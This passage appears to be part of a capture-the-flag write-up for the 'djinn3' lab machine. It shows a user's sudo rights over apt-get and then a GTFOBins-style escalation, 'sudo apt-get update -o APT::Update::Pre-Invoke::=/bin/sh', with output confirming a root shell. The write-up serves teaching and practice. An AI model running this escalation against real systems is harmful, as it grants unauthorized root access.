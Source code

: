 ```bash
        Room Number []:
        Work Phone []:
        Home Phone []:
        Other []:
Is the information correct? [Y/n]
```

## Sudo Permissions of Jason

```bash
jason@djinn3:/home/saint$ sudo -l
[sudo] password for jason:
Matching Defaults entries for jason on djinn3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get

```

Checking GFTOBins we have a way to exploit _apt-get_ with Sudo permissions

![gtfo](../../../assets/images/ctfs/proving_grounds/djinn3/gtfo.png)

```bash
jason@djinn3:/home/saint$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root

```
